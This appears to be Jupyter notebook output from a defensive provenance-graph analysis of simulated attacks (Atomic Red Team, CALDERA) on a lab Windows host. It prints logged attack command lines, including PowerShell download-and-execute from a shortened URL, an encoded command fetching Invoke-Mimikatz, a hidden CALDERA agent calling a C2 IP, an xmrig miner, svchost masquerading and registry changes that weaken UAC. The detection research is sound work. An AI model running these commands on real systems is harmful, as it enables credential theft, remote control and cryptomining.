

  7%|▋         | 11/165 [00:34<04:25,  1.72s/it]

Number of relations in the graph: 44
165999 : powershell.exe_-ExecutionPolicy_Bypass_-C_"copy_$env:ComSpec_($env:TEMP_+_\"\svchost.exe\");_$myT1036_003_=_(Start-Process_-PassThru_-FilePath_($env:TEMP_+_\"\svchost.exe\")).Id;_Stop-Process_-ID_$myT1036_003"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9004
247814 : C:\Users\ezk\AppData\Local\Temp\svchost.exe
255243 : C:\Users\ezk\AppData\Local\Temp\svchost.exe:Zone.Identifier
67615 : HKLM\System\CurrentControlSet\Services\bam\State\UserSettings\S-1-5-21-4065680934-2604657585-3199708412-1106\\Device\HarddiskVolume3\Users\ezk\AppData\Local\Temp\svchost.exe
696253 : HKLM\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\AppCompatFlags\Layers\C:\Users\ezk\AppData\Local\Temp\svchost.exe
../graph_others2/T1036.003_f5ef8466e5ebcd2ae03f338d9416069c.png has been generated!
T1036.003_04e8d83e7badf098d50800d6aa1dd487


<Figure size 432x288 with 0 Axes>



  7%|▋         | 12/165 [00:35<03:46,  1.48s/it]

Number of relations in the graph: 43
459726 : cmd.exe_/C_dir_|_clip_&&_echo_"T1115"_>_%temp%\T1115.txt_&&_clip_<_%temp%\T1115.txt&C:\Windows\system32\cmd.exe&cmd.exe&2332
750349 : C:\Windows\System32\cmd.exe
314910 : cmd.exe_/C_copy_C:\Windows\System32\cmd.exe_C:\svchost.exe_&&_C:\svchost.exe_/c_echo_T1105_>_\\localhost\c$\T1105.txt&C:\Windows\system32\cmd.exe&cmd.exe&1600
791135 : powershell.exe_-ExecutionPolicy_Bypass_-C_"copy_1db90b_T1036.003.exe_($env:TEMP_+_\"\svchost.exe\");_$myT1036_003_=_(Start-Process_-PassThru_-FilePath_($env:TEMP_+_\"\svchost.exe\")).Id;_Stop-Process_-ID_$myT1036_003"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10980
247814 : C:\Users\ezk\AppData\Local\Temp\svchost.exe
../graph_others2/T1036.003_04e8d83e7badf098d50800d6aa1dd487.png has been generated!
T1059.001_6efbccc1869e8cd618c0d3ecda407d5f


<Figure size 432x288 with 0 Axes>



  8%|▊         | 13/165 [00:36<03:15,  1.29s/it]

Number of relations in the graph: 38
632069 : certutil__-urlcache_-split_-f_https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt_Atomic-license.txt&C:\Windows\system32\certutil.exe&certutil.exe&5284
688789 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-108-133.github.com:https
60370 : DESKTOP-BA1RQFC.blueteam.com&117.18.237.29:http
672299 : "C:\Users\ezk\Downloads\GoToAssist.exe"_/S_&C:\Users\ezk\Downloads\GoToAssist.exe&GoToAssist.exe&11044
334599 : "C:\Program_Files_(x86)\LogMeIn_Ignition\LMIIgnition.exe"_/S_&C:\Program_Files_(x86)\LogMeIn_Ignition\LMIIgnition.exe&LMIIgnition.exe&10208
../graph_others2/T1059.001_6efbccc1869e8cd618c0d3ecda407d5f.png has been generated!
T1105_c76968acda4aa1673dadcd67f3ab7664


<Figure size 432x288 with 0 Axes>



  8%|▊         | 14/165 [00:37<02:51,  1.14s/it]

Number of relations in the graph: 36
672299 : "C:\Users\ezk\Downloads\GoToAssist.exe"_/S_&C:\Users\ezk\Downloads\GoToAssist.exe&GoToAssist.exe&11044
60370 : DESKTOP-BA1RQFC.blueteam.com&117.18.237.29:http
334599 : "C:\Program_Files_(x86)\LogMeIn_Ignition\LMIIgnition.exe"_/S_&C:\Program_Files_(x86)\LogMeIn_Ignition\LMIIgnition.exe&LMIIgnition.exe&10208
649154 : "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"_-enc_SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8ARQBtAHAAaQByAGUAUAByAG8AagBlAGMAdAAvAEUAbQBwAGkAcgBlAC8ANwBhADMAOQBhADUANQBmADEAMgA3AGIAMQBhAGUAYgA5ADUAMQBiADMAZAA5AGQAOAAwAGMANgBkAGMANgA0ADUAMAAwAGMAYQBjAGIANQAvAGQAYQB0AGEALwBtAG8AZAB1AGwAZQBfAHMAbwB1AHIAYwBlAC8AYwByAGUAZABlAG4AdABpAGEAbABzAC8ASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAiACkAOwAgACQAbQAgAD0AIABJAG4AdgBvAGsAZQAtAE0AaQBtAGkAawBh

<Figure size 432x288 with 0 Axes>



  9%|▉         | 15/165 [00:38<02:45,  1.11s/it]

Number of relations in the graph: 35
702687 : cmd.exe_/C_sc_query_type=service_>_%TEMP%\T1119_1.txt_&&_doskey_/history_>_%TEMP%\T1119_2.txt_&&_wmic_process_list_>_%TEMP%\T1119_3.txt_&&_tree_C:\AtomicRedTeam\atomics_>_%TEMP%\T1119_4.txt&C:\Windows\system32\cmd.exe&cmd.exe&8156
799558 : C:\Users\ezk\AppData\Local\Temp\T1119_1.txt
78243 : C:\Users\ezk\AppData\Local\Temp\T1119_2.txt
35331 : C:\Users\ezk\AppData\Local\Temp\T1119_3.txt
24730 : sc__query_type=service__&C:\Windows\system32\sc.exe&sc.exe&7744
../graph_others2/T1119_344e7eaf650763e0d3e9f02e62c1cf4b.png has been generated!
T1119_7121cdf93b951311be9d7078c602efdc


<Figure size 432x288 with 0 Axes>



 10%|▉         | 16/165 [00:39<02:35,  1.04s/it]

Number of relations in the graph: 33
607044 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Get-Service_>_$env:TEMP\T1119_1.txt;_Get-ChildItem_Env:_>_$env:TEMP\T1119_2.txt;_Get-Process_>_$env:TEMP\T1119_3.txt"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&11144
799558 : C:\Users\ezk\AppData\Local\Temp\T1119_1.txt
78243 : C:\Users\ezk\AppData\Local\Temp\T1119_2.txt
35331 : C:\Users\ezk\AppData\Local\Temp\T1119_3.txt
702687 : cmd.exe_/C_sc_query_type=service_>_%TEMP%\T1119_1.txt_&&_doskey_/history_>_%TEMP%\T1119_2.txt_&&_wmic_process_list_>_%TEMP%\T1119_3.txt_&&_tree_C:\AtomicRedTeam\atomics_>_%TEMP%\T1119_4.txt&C:\Windows\system32\cmd.exe&cmd.exe&8156
../graph_others2/T1119_7121cdf93b951311be9d7078c602efdc.png has been generated!
T1115_70795de7cbb842edb029b3378c27c008


<Figure size 432x288 with 0 Axes>



 10%|█         | 17/165 [00:40<02:54,  1.18s/it]

Number of relations in the graph: 29
314910 : cmd.exe_/C_copy_C:\Windows\System32\cmd.exe_C:\svchost.exe_&&_C:\svchost.exe_/c_echo_T1105_>_\\localhost\c$\T1105.txt&C:\Windows\system32\cmd.exe&cmd.exe&1600
750349 : C:\Windows\System32\cmd.exe
165999 : powershell.exe_-ExecutionPolicy_Bypass_-C_"copy_$env:ComSpec_($env:TEMP_+_\"\svchost.exe\");_$myT1036_003_=_(Start-Process_-PassThru_-FilePath_($env:TEMP_+_\"\svchost.exe\")).Id;_Stop-Process_-ID_$myT1036_003"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9004
76865 : powershell.exe_-ExecutionPolicy_Bypass_-C_dir&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3108
270774 : C:\Windows\System32\*
../graph_others2/T1115_70795de7cbb842edb029b3378c27c008.png has been generated!
T1105_60f63260-39bb-4136-87a0-b6c2dca799fc


<Figure size 432x288 with 0 Axes>



 11%|█         | 18/165 [00:41<02:33,  1.04s/it]

Number of relations in the graph: 29
575448 : powershell.exe_-ExecutionPolicy_Bypass_-C_"(New-Object_System.Net.WebClient).DownloadFile(\"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt\",_\"$env:TEMP\Atomic-license.txt\")"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&8724
298583 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-110-133.github.com:https
616413 : powershell.exe_-ExecutionPolicy_Bypass_-C_"powershell.exe_-c_IEX_(New-Object_Net.Webclient).downloadstring(\"https://bit.ly/33H0QXi\")"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10688
144367 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$wc=New-Object_System.Net.WebClient;$output=\"PowerShellCore.msi\";$wc.DownloadFile(\"https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi\",_$output);Start-Process_msiexec.exe_-ArgumentList_\"/package_PowerShellCore.msi_/quiet_ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1_E

<Figure size 432x288 with 0 Axes>



 12%|█▏        | 19/165 [00:42<02:24,  1.01it/s]

Number of relations in the graph: 22
20943 : cmd.exe_/C_pnputil.exe_/add-driver_"C:\Windows\INF\usbstor.inf"&C:\Windows\system32\cmd.exe&cmd.exe&3404
82356 : pnputil.exe__/add-driver_"C:\Windows\INF\usbstor.inf"&C:\Windows\system32\pnputil.exe&pnputil.exe&7780
337971 : C:\Windows\INF\usbstor.inf
346281 : HKLM\SYSTEM\DriverDatabase\DriverInfFiles\usbstor.inf
749109 : HKLM\SYSTEM\DriverDatabase\DriverInfFiles\usbstor.inf\Active
../graph_others2/T1547_fe9eeee9a7b339089e5fa634b08522c1.png has been generated!
T1105_c521e0a70b243a0cf9217907ca3c6d27


<Figure size 432x288 with 0 Axes>



 12%|█▏        | 20/165 [00:42<02:07,  1.14it/s]

Number of relations in the graph: 20
92037 : cmd.exe_/C_C:\Windows\System32\Curl.exe_-k_https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll_-o_c:\users\public\music\allthethingsx64.dll_&&_C:\Windows\System32\Curl.exe_-k_https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll_--output_c:\users\public\music\allthethingsx64.dll_&&_C:\Windows\System32\Curl.exe_-k_https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll_-o_c:\programdata\allthethingsx64.dll_&&_C:\Windows\System32\Curl.exe_-k_https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll_-o_%Temp%\allthethingsx64.dll&C:\Windows\system32\cmd.exe&cmd.exe&2444
269200 : C:\Windows\System32\Curl.exe__-k_https://github.com/redca

/workdir/home/euni/anaconda3/lib/python3.9/site-packages/pygraphviz/agraph.py:1407: RuntimeWarning: Warning: using box for unknown shape o

  warnings.warn(b"".join(errors).decode(self.encoding), RuntimeWarning)


<Figure size 432x288 with 0 Axes>



 13%|█▎        | 21/165 [00:43<01:53,  1.27it/s]

Number of relations in the graph: 20
736456 : cmd.exe_/C_C:\Windows\System32\Curl.exe_-s_-A_"HttpBrowser/1.0"_-m3_www.google.com_>nul_2>&1_&&_C:\Windows\System32\Curl.exe_-s_-A_"Wget/1.9+cvs-stable_(Red_Hat_modified)"_-m3_www.google.com_>nul_2>&1_&&_C:\Windows\System32\Curl.exe_-s_-A_"Opera/8.81_(Windows_NT_6.0;_U;_en)"_-m3_www.google.com_>nul_2>&1_&&_C:\Windows\System32\Curl.exe_-s_-A_"*<|>*"_-m3_www.google.com_>nul_2>&1&C:\Windows\system32\cmd.exe&cmd.exe&9308
183551 : C:\Windows\System32\Curl.exe__-s_-A_"HttpBrowser/1.0"_-m3_www.google.com__&C:\Windows\System32\curl.exe&curl.exe&6936
385595 : C:\Windows\System32\Curl.exe__-s_-A_"Wget/1.9+cvs-stable_(Red_Hat_modified)"_-m3_www.google.com__&C:\Windows\System32\curl.exe&curl.exe&7608
513501 : C:\Windows\System32\Curl.exe__-s_-A_"Opera/8.81_(Windows_NT_6.0;_U;_en)"_-m3_www.google.com__&C:\Windows\System32\curl.exe&curl.exe&8124
783167 : C:\Windows\System32\Curl.exe__-s_-A_"*<|>*"_-m3_www.google.com_&C:\Windows\System32\curl.exe&curl.exe

<Figure size 432x288 with 0 Axes>



 13%|█▎        | 22/165 [00:43<01:44,  1.37it/s]

Number of relations in the graph: 18
144367 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$wc=New-Object_System.Net.WebClient;$output=\"PowerShellCore.msi\";$wc.DownloadFile(\"https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi\",_$output);Start-Process_msiexec.exe_-ArgumentList_\"/package_PowerShellCore.msi_/quiet_ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1_ENABLE_PSREMOTING=1_REGISTER_MANIFEST=1\"_-Wait;$env:Path_+=_\";C:\Program_Files\Powershell\6\";Start-Process_pwsh_-ArgumentList_\"-c_C:\Users\Public\sandcat.go-windows.exe_-server_http://140.109.18.142:9496_-_group_CALDERA\"_-WindowStyle_hidden;"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10932
298583 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-110-133.github.com:https
575448 : powershell.exe_-ExecutionPolicy_Bypass_-C_"(New-Object_System.Net.WebClient).DownloadFile(\"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt\",_\"$env:TEMP

/workdir/home/euni/anaconda3/lib/python3.9/site-packages/pygraphviz/agraph.py:1407: RuntimeWarning: Warning: using box for unknown shape o

  warnings.warn(b"".join(errors).decode(self.encoding), RuntimeWarning)


<Figure size 432x288 with 0 Axes>



 14%|█▍        | 23/165 [00:44<01:52,  1.27it/s]

Number of relations in the graph: 18
791888 : cmd.exe_/C_cmd.exe_/c_reg_add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System_/v_LocalAccountTokenFilterPolicy_/t_REG_DWORD_/d_1_/f_&&_cmd.exe_/c_reg_add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System_/v_EnableLinkedConnections_/t_REG_DWORD_/d_1_/f_&&_cmd.exe_/c_reg_add_HKLM\SYSTEM\CurrentControlSet\Control\FileSystem_/v_LongPathsEnabled_/t_REG_DWORD_/d_1_/f&C:\Windows\system32\cmd.exe&cmd.exe&900
79822 : HKLM\System\CurrentControlSet\Control\FileSystem\LongPathsEnabled
689025 : cmd.exe__/c_reg_add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System_/v_LocalAccountTokenFilterPolicy_/t_REG_DWORD_/d_1_/f_&C:\Windows\system32\cmd.exe&cmd.exe&8936
762453 : cmd.exe__/c_reg_add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System_/v_EnableLinkedConnections_/t_REG_DWORD_/d_1_/f_&C:\Windows\system32\cmd.exe&cmd.exe&10872
723125 : cmd.exe__/c_reg_add_HKLM\SYSTEM\CurrentControlSet\Control\FileSystem

<Figure size 432x288 with 0 Axes>



 15%|█▍        | 24/165 [00:45<01:41,  1.39it/s]

Number of relations in the graph: 17
632069 : certutil__-urlcache_-split_-f_https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt_Atomic-license.txt&C:\Windows\system32\certutil.exe&certutil.exe&5284
688789 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-108-133.github.com:https
436925 : mshta.exe__javascript:a=GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/mshta.sct').Exec();close()&C:\Windows\system32\mshta.exe&mshta.exe&9664
738958 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Invoke-WebRequest_-Uri_https://github.com/xmrig/xmrig/releases/download/v6.11.2/xmrig-6.11.2-msvc-win64.zip_-OutFile_xmrig-6.11.2-msvc-win64.zip;Expand-Archive_-LiteralPath_xmrig-6.11.2-msvc-win64.zip_-DestinationPath_.\;Start-Process_\".\xmrig-6.11.2\xmrig.exe\"_-WindowStyle_Hidden;Start-Sleep_-Seconds_60;Stop-Process_-Name_\"xmrig\""&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3424
649154 : "C:\Win

<Figure size 432x288 with 0 Axes>



 15%|█▌        | 25/165 [00:45<01:31,  1.53it/s]

Number of relations in the graph: 16
144367 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$wc=New-Object_System.Net.WebClient;$output=\"PowerShellCore.msi\";$wc.DownloadFile(\"https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi\",_$output);Start-Process_msiexec.exe_-ArgumentList_\"/package_PowerShellCore.msi_/quiet_ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1_ENABLE_PSREMOTING=1_REGISTER_MANIFEST=1\"_-Wait;$env:Path_+=_\";C:\Program_Files\Powershell\6\";Start-Process_pwsh_-ArgumentList_\"-c_C:\Users\Public\sandcat.go-windows.exe_-server_http://140.109.18.142:9496_-_group_CALDERA\"_-WindowStyle_hidden;"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10932
298583 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-110-133.github.com:https
616413 : powershell.exe_-ExecutionPolicy_Bypass_-C_"powershell.exe_-c_IEX_(New-Object_Net.Webclient).downloadstring(\"https://bit.ly/33H0QXi\")"&C:\Windows\System32\WindowsPowerShell\v1.0\powershe

<Figure size 432x288 with 0 Axes>



 16%|█▌        | 26/165 [00:46<01:21,  1.71it/s]

Number of relations in the graph: 16
